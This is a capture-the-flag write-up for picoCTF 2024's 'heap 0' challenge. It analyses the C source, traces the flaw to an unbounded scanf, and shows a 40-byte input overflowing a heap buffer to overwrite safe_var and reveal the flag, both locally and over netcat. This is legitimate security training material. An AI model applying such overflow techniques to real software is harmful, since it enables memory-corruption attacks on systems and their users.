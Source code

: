 # heap 0

```
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Are overflows just a stack concern?

Hints:
1. What part of the heap do you have control over and how far is it from the safe_var?
```
Challenge link: [https://play.picoctf.org/practice/challenge/438](https://play.picoctf.org/practice/challenge/438)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
        int rval = scanf("%d", &choice);
        if (rval == EOF){
            exit(0);
        }
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
            exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Main basically does the following:
- Initialize the heap by calling the `init` function 
- Print the contents of the heap with the `print_heap` function
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The `check_win` function (menu choice 4) will print the flag for us if we have managed to change the contents of the `safe_var` variable
```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ ./chall    

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x556e508826b0  ->   pico
+-------------+----------------+
[*]   0x556e508826d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 
```
The difference between the memory positions is 32 bytes. 

Let's write say 40 bytes of data and see if we can overwrite `safe_var`.
```bash
Enter your choice: 2
Data for buffer: aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x556e508826b0  ->   aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd
+-------------+----------------+
[*]   0x556e508826d0  ->   dddddddd
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
zsh: segmentation fault  ./chall
                                                                                                                                                                     
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ 
```
Success, we managed to overwrite `safe_var`. The segmentation fault error is due to the fact that no `flag.txt` file exists in the directory.

The cause is [the unbounded use of scanf](https://stackoverflow.com/questions/31379442/has-scanf-a-limited-bound-on-the-number-of-bytes-that-the-user-can-input) (`scanf("%s", input_data);`) in the `write_buffer` function.

### Get the flag

Finally, we connect to the site vith netcat and follow the same procedure
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ nc tethys.picoctf.net 59346

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c1bede962b0  ->   pico
+-------------+----------------+
[*]   0x5c1bede962d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c1bede962b0  ->   aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd
+-------------+----------------+
[*]   0x5c1bede962d0  ->   dddddddd
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{<REDACTED>}
                                                                                                                                                                     
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ 
```

For additional information, please see the references below.

## References

- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [Wikipedia - Heap (data structure)](https://en.wikipedia.org/wiki/Heap_(data_structure))
- [Wikipedia - Heap overflow](https://en.wikipedia.org/wiki/Heap_overflow)
